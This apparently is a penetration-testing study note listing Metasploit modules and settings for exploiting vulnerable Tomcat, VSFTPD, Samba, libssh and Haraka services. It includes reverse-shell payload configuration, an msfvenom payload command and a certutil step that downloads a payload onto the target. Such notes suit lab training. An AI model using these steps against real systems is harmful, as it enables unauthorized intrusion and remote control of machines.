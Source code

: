 ## Apache tomcat ~ 8080

Open source java web server.
- Standard apache web server is develop in php
- Tomcat is for java.

**How to exploit**:
- For the version `8.5.19` we can use the module `tomcat_jsp_upload_bypass`
  - `set payload java/jsp_shell_blind_tcp`
  - `set shell cmd` for windows
- Other way, We can create payload using `msfvenom -p <reverse_tcp> LHOST ... -f exe > meterpreter.exe`
  - To be able to download, we may need to install cert on target machine using `certutil -urlcache <url_to_payload> <file_name>`


## VSFTPD

VSFTPD v2.3.4 have vulns that attacker can upload the backdoor to gain access

- `search vsftpd` -> use the exploit modules
- set `RHOSTS` and run -> It will provide us with linux shell
- To upgrade shell to meterpreter, we can use module `shell_to_meterpreter`
  - set `LHOSTS` and `SESSIONS` 

## Samba
Samba version 3 -> 4.
We can use module `is_known_pipename` to exploit this Samba
- `nmap -sV --script=smb-* <target>`
- `search type:exploit name:samba`

## Libssh

Exploit ssh: libssh v0.6.0 to v0.8.0 have exploit that can bypass authentication 

There are a module for this exploit
- Scanner `libssh_auth_bypass` -> set `SPAWN_PTY true`
- Run

## SMTP - Haraka

Haraka is an open source high performace SMTP server, developed in Node.js

Haraka to version 2.8.9 is vulns to command injections

We can use module `linux/smtp/haraka` to exploit
- We use non-staged payload for this
  - So we have server and lhost, need to be different port
- This module we set payload `linux/x64/meterpreter_reverse_http`
- Change `SRVPort` to 9000, `LPORT` keep default
  - Tips: For `LHOST`, we can `set LHOST eth1` -> This will default input the host ip of eth1 network
- Important: Set email_to to correct email address of the target
